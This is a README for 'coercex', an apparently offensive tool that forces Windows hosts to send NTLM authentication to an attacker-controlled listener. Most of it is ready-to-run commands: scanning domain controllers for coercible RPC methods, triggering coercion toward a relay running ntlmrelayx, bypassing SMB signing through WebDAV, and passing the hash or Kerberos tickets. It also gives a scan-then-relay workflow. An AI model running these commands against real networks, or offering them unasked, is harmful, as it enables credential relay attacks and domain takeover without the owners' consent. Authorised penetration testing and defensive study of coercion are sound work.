

# coercex

Async NTLM authentication coercion scanner. A high-performance replacement for Coercer and PetitPotam.

## Features

- **19 coercion methods** across 7 protocols: MS-EFSR (10), MS-RPRN (2), MS-DFSNM (2), MS-FSRVP (2), MS-EVEN (1), MS-PAR (1), MS-TSCH (1)
- **2 operation modes**: scan (detect vulnerable methods), coerce (trigger coercion at external relay)
- **Method/pipe/protocol filtering** with glob and regex pattern matching
- **Kerberos authentication** with ccache/TGT/TGS support
- **Async architecture** with configurable concurrency (50-200 concurrent tasks)
- **Connection pooling** by (target, pipe, UUID) for session reuse
- **WebDAV transport** support (`\\host@port\share` format) to bypass SMB signing
- **Port redirect** via pydivert (Windows only) for non-standard listener ports
- **Token correlation** for confirmed callback verification (scan mode)
- **Rich terminal output** with tables, colors, and progress indicators

## Installation

```bash
uv pip install -e .
```

## Quick Start

### Scan for coercible methods

```bash
# Scan a single target (listener auto-detects local IP)
coercex scan -t dc01.corp.local -u user -p pass -d corp.local

# Scan with explicit listener IP
coercex scan -t dc01.corp.local -l 10.0.0.5 -u user -p pass -d corp.local

# Scan multiple targets from file, EFSR only
coercex scan -T targets.txt -u user -p pass --protocols MS-EFSR

# Scan only specific methods by name (glob pattern)
coercex scan -t dc01 -u user -p pass --methods 'EfsRpc*'

# Scan only methods available on spoolss pipe
coercex scan -t dc01 -u user -p pass --pipes '\PIPE\spoolss'

# High-concurrency scan with hash auth
coercex scan -t dc01.corp.local -u user -H aad3b435b51404ee:abc123... -d corp --concurrency 200

# Scan on non-standard ports with port redirect (Windows only, requires Admin)
coercex scan -t dc01 -u user -p pass --smb-port 4445 --http-port 8080 --redirect
```

### Coerce with external relay

Use `coerce` mode alongside ntlmrelayx (or any other relay tool). coercex only
sends RPC triggers -- it does NOT bind any ports.

```bash
# Trigger coercion pointing at your relay
coercex coerce -t dc01.corp.local -l 10.0.0.5 -u user -p pass -d corp.local

# Coerce with specific methods from scan results
coercex coerce -t dc01 -l 10.0.0.5 -u user -p pass --methods 'EfsRpcOpenFileRaw'

# Coerce via specific protocol + pipe
coercex coerce -t dc01 -l 10.0.0.5 -u user -p pass --protocols MS-RPRN --pipes '\PIPE\spoolss'

# Via WebDAV only (bypass SMB signing)
coercex coerce -t dc01.corp.local -l 10.0.0.5 -u user -p pass --transport http

# Via SMB only
coercex coerce -t dc01.corp.local -l 10.0.0.5 -u user -p pass --transport smb

# Both transports (default)
coercex coerce -t dc01.corp.local -l 10.0.0.5 -u user -p pass --transport smb --transport http
```

## Authentication

### Password / NTLM hash

```bash
coercex scan -t dc01 -u admin -p 'P@ssw0rd' -d corp.local
coercex scan -t dc01 -u admin -H 'aad3b435b51404ee:fc525c9683e8fe067095ba2ddc971889' -d corp.local
```

### Kerberos with ccache

```bash
# Use a ccache file directly
coercex scan -t dc01 --ccache /tmp/krb5cc_admin -d corp.local

# Or set KRB5CCNAME and use -k
export KRB5CCNAME=/tmp/krb5cc_admin
coercex scan -t dc01 -k -d corp.local --dc-host dc01.corp.local

# AES key for Kerberos pre-auth
coercex scan -t dc01 -u admin --aes-key 4a3f... -k --dc-host dc01.corp.local -d corp.local
```

## Modes

| Mode | Listener | Binds Ports | Description |
|------|----------|-------------|-------------|
| `scan` | Optional (`-l`) | HTTP+SMB listener | Try all path styles per method. Always starts a listener for callback confirmation. If `-l` omitted, auto-detects local IP. |
| `coerce` | **Required** (`-l`) | **None** | Fire coercion at `--listener` where your relay (e.g. ntlmrelayx) is already running. Reports `SENT` for every trigger dispatched. |

### Typical workflow

1. **Scan** to find which methods are vulnerable on the target
2. **Start ntlmrelayx** (or similar) pointing at your relay target
3. **Coerce** with `--methods` filter to trigger only the working methods

## Result Classification

| Status | Symbol | Meaning |
|--------|--------|---------|
| `VULNERABLE` | `[+]` | Callback confirmed on our listener (strongest signal) |
| `ACCESSIBLE` | `[~]` | Method processed our path (RPC success or indicative error code like `BAD_NETPATH`), but no callback confirmation yet |
| `SENT` | `[>]` | Coerce mode only -- trigger dispatched, no classification attempted |
| `ACCESS_DENIED` | `[-]` | RPC returned access denied |
| `NOT_AVAILABLE` | `[ ]` | Endpoint/method not available on target |
| `CONNECT_ERROR` | `[!]` | Could not connect to RPC pipe |
| `TIMEOUT` | `[T]` | Connection or RPC timed out |

## Port Redirect

When binding on non-standard ports (e.g. `--smb-port 4445 --http-port 8080`
because default ports are in use), standard UNC paths (`\\host\share`) won't
reach your listener since SMB always connects to port 445.

Two solutions:

1. **WebDAV format** (automatic fallback): UNC paths become `\\host@4445\share`.
   Requires the WebClient service on the target (often disabled by default).

2. **Port redirect** (`--redirect`, Windows only): Uses pydivert to NAT
   standard ports to your listener ports at the kernel level. UNC paths stay
   in standard format. Requires admin privileges.

```bash
# Windows only: pydivert NAT rules (445->4445, 80->8080)
coercex scan -t dc01 -u user -p pass --smb-port 4445 --http-port 8080 --redirect

# If redirect fails, coercex falls back to WebDAV @port format with a warning
```

## Filtering

Both modes support `--methods`, `--pipes`, `--protocols`, and `--transport` filters:

```bash
# Filter by protocol
coercex scan -t dc01 -u user -p pass --protocols MS-EFSR MS-RPRN

# Filter by method name (glob pattern)
coercex scan -t dc01 -u user -p pass --methods 'RpcRemote*'

# Filter by method name (regex)
coercex scan -t dc01 -u user -p pass --methods 'EfsRpc.*Raw'

# Filter by named pipe
coercex scan -t dc01 -u user -p pass --pipes '\PIPE\spoolss'

# Filter by transport
coercex scan -t dc01 -u user -p pass --transport smb

# Combine filters
coercex coerce -t dc01 -l 10.0.0.5 -u user -p pass \
  --protocols MS-EFSR --methods 'EfsRpcOpenFileRaw'
```

## Protocols and Methods

| Protocol | Methods | Description |
|----------|---------|-------------|
| MS-EFSR | 10 | Encrypting File System Remote Protocol |
| MS-RPRN | 2 | Print System Remote Protocol |
| MS-DFSNM | 2 | Distributed File System Namespace Management |
| MS-FSRVP | 2 | File Server Remote VSS Protocol |
| MS-EVEN | 1 | EventLog Remoting Protocol |
| MS-PAR | 1 | Print System Asynchronous Remote Protocol |
| MS-TSCH | 1 | Task Scheduler Service Remote Protocol |

## Output

```bash
# Table output (default) -- shows only vulnerable/accessible/sent
coercex scan -t dc01 -u user -p pass

# Show all results
coercex scan -t dc01 -u user -p pass -v

# JSON output
coercex scan -t dc01 -u user -p pass --json

# Write to file
coercex scan -t dc01 -u user -p pass -o results.txt
coercex scan -t dc01 -u user -p pass --json -o results.json
```

## Architecture



- **Scanner**: Async orchestrator with semaphore-bounded concurrency, 2 modes (scan/coerce)
- **DCERPCPool**: Connection pool keyed by (target, pipe, UUID), all impacket calls wrapped with `asyncio.to_thread()`
- **Listener**: Async HTTP + SMB listener with UUID token correlation (scan mode)
- **Methods**: Registry of 19 coercion methods across 7 protocols with pipe binding metadata, glob/regex filtering
